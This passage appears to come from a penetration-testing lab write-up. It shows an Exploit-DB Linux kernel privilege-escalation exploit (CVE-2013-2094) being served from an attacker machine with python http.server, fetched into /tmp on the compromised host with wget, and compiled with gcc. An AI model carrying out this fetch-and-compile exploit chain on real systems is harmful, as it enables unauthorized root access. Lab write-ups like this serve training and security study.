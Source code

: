       URL: https://www.exploit-db.com/exploits/33589

     Path: /usr/share/exploitdb/exploits/linux_x86-64/local/33589.c

    Codes: CVE-2013-2094, OSVDB-93361

 Verified: True

File Type: C source, ASCII text

  

cp /usr/share/exploitdb/exploits/linux_x86-64/local/33589.c 33589.c

Exploit page for more info [https://www.exploit-db.com/exploits/33589](https://www.exploit-db.com/exploits/33589) so will need to run it locally on the target. Need to set up a file server to transfer over the exploit

  
(IP address changed due to the target box dying)

  

python -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

192.168.178.87 - - [15/Jun/2023 14:06:50] "GET /33589.c HTTP/1.1" 200 -

  

Now on target make sure you go to a folder with writer privileges which would be tmp

www-data@ubuntu:/usr/lib/cgi-bin$ cd /tmp

cd /tmp

www-data@ubuntu:/tmp$ wget http://192.168.45.176:8000/33589.c

wget http://192.168.45.176:8000/33589.c

--2023-06-15 07:12:50--  http://192.168.45.176:8000/33589.c

Connecting to 192.168.45.176:8000... connected.

HTTP request sent, awaiting response... 200 OK

Length: 3525 (3.4K) [text/x-csrc]

Saving to: `33589.c'

  

     0K ...                                                   100% 7.46M=0s

  

2023-06-15 07:12:50 (7.46 MB/s) - `33589.c' saved [3525/3525]

  

www-data@ubuntu:/tmp$ ls

ls

33589.c

  

gcc 33589.c -O2 -o ./exploit 

